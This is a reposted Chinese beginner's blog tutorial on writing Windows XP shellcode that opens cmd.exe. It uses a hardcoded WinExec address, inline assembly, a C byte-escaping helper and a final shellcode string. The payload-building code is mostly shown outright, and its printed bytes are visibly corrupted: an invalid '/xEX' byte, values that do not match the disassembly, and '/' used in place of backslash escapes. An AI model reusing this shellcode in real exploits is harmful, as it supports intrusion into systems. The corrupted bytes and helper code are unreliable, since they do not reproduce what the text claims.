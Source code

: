 ```yaml
---
layout: post
categories: shellcode
title: Shell初级入门程序
date: 2018-04-11 13:12:45 +0800
description: shellcode 进行服务器的渗透
keywords: shellcode linux
---
```


## 前言

很久没有写博客了，今天写写一个以前没有写过的话题，缓冲区溢出shellcode编写。

我是菜鸟，以前没有写过shellcode，最近也在忙着网络的渗透，栈溢出也是零零碎碎的看到一些知识，大牛飘过，菜鸟言论仅供娱乐。

大家同是菜鸟的人可以看看，我是站在初学者的角度写这篇文章的，所以初学者应该比较容易理解。

对于一些复杂的shellcodet我们暂且先不谈，我们先来看看自己编写一个打开cmd窗口的shellcode。其实黑客防线上有位大神执笔写了一系列exploit的编写，有兴趣的人自己去看看。

## 首先我们需要了解一下windows的运行机制。我们先写一个简单的开启本地cmd窗口的程序：

```c
#include<windows.h>  
Void main()  
{  
   WinExec("cmd.exe",1);  
} 
```


### 在Visual C++上按F10进入反汇编代码:

```c
:#include”windows.h”  
2:void main()  
3:    {  
00401010   push        ebp  
00401011   mov         ebp,esp  
00401013   sub         esp,40h  
00401016   push        ebx  
00401017   push        esi  
00401018   push        edi  
00401019   lea         edi,[ebp-40h]  
0040101C   mov         ecx,10h  
00401021   mov         eax,0CCCCCCCCh  
00401026   rep stos    dword ptr [edi]  
4:        WinExec("cmd.exe",1);  
00401028   mov         esi,esp  
0040102A   push        1  
0040102C   push        offset string "cmd.exe" (0041f01c)  
00401031   call        dword ptr [__imp__WinExec@8 (0042413c)]  
00401037   cmp         esi,esp  
00401039   call        __chkesp (00401070)  
5:    }  
```


通过这个程序我们可以清楚的看到计算机在调用WinExec函数的时候是先把两个参数从右至左一次压入栈，然后调用call函数转到WinExec的地址去。但是要注意的是call函数除了实现地址的跳转还有一点就是把当前的EIP压入栈。

对于shellcode是机器码，大多数人看到都会晕乎乎的，但是不用怕，我们所要做的工作不是用机器码写这一大堆东西，这些计算机已经为我们做的很好了，我们所要做的就是用汇编甚至是高级语言写下我们要实现的代码。




但目前其实目的已经很明确，我们要调用WinExec函数就要知道在不同系统中WinExec函数所在的地址，那么用什么方法知道这个函数所在的地址呢？这里我介绍一种非常简便的办法，使用vc自带的depends工具。打开Depends，随便拖一个PE文件进去如下图：

![](/static/demos/feb1aef7-5ae0-43d1-bdbf-b234589fa766.jpeg)


我们可以看到KERNEL.DLL的入口地址是0x7c800000而WinExec的入口地址是0x0006250D那么WinExec的地址就出来了两个相加得到0x7C86250D，这个方法是不是很简单？另外本菜鸟使用的是windows XP sp3不同的系统可能有所不同。

有了入口地址，我们可以用汇编来编写我们的shellcode，

```c
#include<windows.h>  
void main()  
{  
    _asm  
    {  
        push ebp  
        mov ebp,esp  
        xor edi,edi  
        push edi  
        sub esp,04h  
        mov [ebp-08h],63h  
        mov [ebp-07h],6Dh  
        mov [ebp-06h],64h  
        mov [ebp-05h],2Eh  
        mov [ebp-04h],65h  
        mov [ebp-03h],78h  
        mov [ebp-02h],65h  
        push 1         //压入第一个参数  
        lea eax,[ebp-08h]           
        push eax           //压入第二个参数  
        mov edx,0x7C86250D  
        call edx            //调用WinExec  
        leave  
    };  
}  

```

按F10进入反汇编调试器中，在按Alt+8看到汇编代码，此时并没有机器码啊，别着急，在空白的地方右击出现的下拉菜单中选中Code Byte一项。看看出现了什么？在每一行汇编代码前出现了机器码！如下图

![](/static/demos/0d6ce28d-d9c8-47b8-b21b-1eeb923c9754.bmp)

下面要做的工作就是把这些机器码抄下来了，这个是体力活。直接抄在一起比如：558BEC83EC……那么我们还要在每两个字母前手动添加/x么？当然不用，写一个小程序，一劳永逸：

```c
#include "stdio.h"  
#include "stdlib.h"  
int main()  
{  
    FILE *fp1=NULL,*fp2=NULL;  
    char ch,filename[20]={0};  
    printf("请输入文件路径：(注意字符转义)/n");  
    scanf("%s",filename);  
    if((fp1=fopen(filename,"rb"))==NULL)  
    {  
        printf("不能读取文件！/n");  
        exit(0);  
    }  
    if((fp2=fopen("shellcode.txt","w+"))==NULL)  
    {  
        printf("不能写入文件！/n");  
        exit(0);  
    }  
    while (!feof(fp1))  
    {  
        ch=fgetc(fp1);  
        fputc('//',fp2);  
        fputc('x',fp2);  
        fputc(ch,fp2);  
        ch=fgetc(fp1);  
        fputc(ch,fp2);  
    }  
    printf("转换成功！");  
    fclose(fp1);  
    fclose(fp2);  
    return 0;  
      
}  
```

最终转换的shellcode就是

```c
/x55/x8B/xEX/x83/xEC/x40/x53/x56/x57/x8D/x7D/xC0/xB9/x10/x11/x11/x11/xB8/xCC/xCC/xCC/xCC/xF3/x1B/x55/x8B/xEC/x33/xFF/x57/x83/xEC/x04/xC6/x45/xF8/x63/xC6/x45/xF9/x6D/xC6/x45/xFA/x64/xC6/x45/xFB/x2E/xC6/x45/xFC/x65/xC6/x45/xFD/x78/xC6/x45/xFE/x65/x6A/x01/x8D/x45/xF8/x50/xBA/x0D/x25/x86/x7C/xFF/xD2/xC9
```
到这里该讲的都讲完了，还是那一句话，菜鸟言论，大牛飘过。。。

### 原文：https://blog.csdn.net/yiyefangzhou24/article/details/6440239






转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
